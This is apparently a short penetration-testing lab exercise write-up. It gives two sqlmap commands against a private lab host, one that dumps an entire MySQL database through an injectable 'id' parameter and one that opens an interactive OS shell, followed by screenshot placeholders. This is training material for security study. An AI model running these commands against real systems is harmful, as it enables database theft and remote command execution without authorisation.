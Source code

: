### 9.4.5.13 Exercises
#### 1. Use sqlmap to obtain a full dump of the database.

```bash
sqlmap -u http://192.168.216.10/debug.php?id=1 -p "id" --dbms=mysql --dump
```

![image-20200626163323108](.9.4.5.13.assets/image-20200626163323108.png)

#### 2. Use sqlmap to obtain an interactive shell

```bash
sqlmap -u http://192.168.216.10/debug.php?id=1 -p "id" --dbms=mysql --os-shell
```

![image-20200626163418170](.9.4.5.13.assets/image-20200626163418170.png)